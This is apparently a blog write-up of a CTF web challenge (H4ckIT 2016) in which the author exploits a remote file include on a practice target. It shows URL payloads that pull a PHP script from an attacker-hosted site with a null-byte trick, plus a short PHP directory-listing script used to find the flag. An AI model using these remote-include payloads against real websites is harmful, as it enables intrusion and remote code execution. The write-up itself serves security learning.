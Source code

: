 ```yaml
---
layout: post
title: H4ckIT CTF 2016 - Remote Pentest (Web 150)
date: 2016-10-03 12:03:00
categories: 
- CTF 
- H4ckIT 2016
---
```


## Challenge

> Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack. Good luck! <br>
> http://91.231.84.36:9150/


## Solution

I liked this challenge.  I think it was well made.  It was easy to find the right direction, but it took a little bit of consideration to find the answer.  I'm not even convinced my solution was the most straightforward, but it certainly worked.

After poking around the site HTML for a few minutes, I found a possible file include vulnerability and attempted to exploit it as a remote file include by navigating to the page `/index.php?page=http://google.com%00`.  Google's homepage did in fact load into the site, confirming a remote file include vulnerability.  I could exploit this by hosting a malicious PHP file and accessing it by visiting `/index.php?page=http://mysite.com/phpscript.txt%00`.

My first thought was to use a PHP web shell, but it seemed like the PHP `system()` function was disabled.

At this point I wanted to see if any PHP functions were working, so I tried running `phpinfo()`.  That was a fortuitous plan not only because it worked, but because it then pointed me in the right direction.  The server's document root was configured to __/var/www/srv/www__, which I then thought to scan for other documents, especially something like __flag.txt__.  I used the PHP `scandir()` function, which returned the following array:

```php
Array ( 
	[0] => . 
	[1] => .. 
	[2] => .htaccess 
	[3] => .htaccess_kab 
	[4] => about.php 
	[5] => contact.php 
	[6] => css 
	[7] => fonts 
	[8] => index.php 
	[9] => js 
	[10] => php.ini 
	[11] => services.php 
	[12] => sup3r_$3cr3t_f1le.php 
)
```

Found it.  Navigating to the subtly named __sup3r_$3cr3t_f1le.php__ prints the flag.

## Script (PHP)

```php
<?php
$dir = scandir('/var/www/srv/www');
print_r($dir);
?>
```

## Flag

```none
h4ck1t{g00d_rfi_its_y0ur_fl@g}
```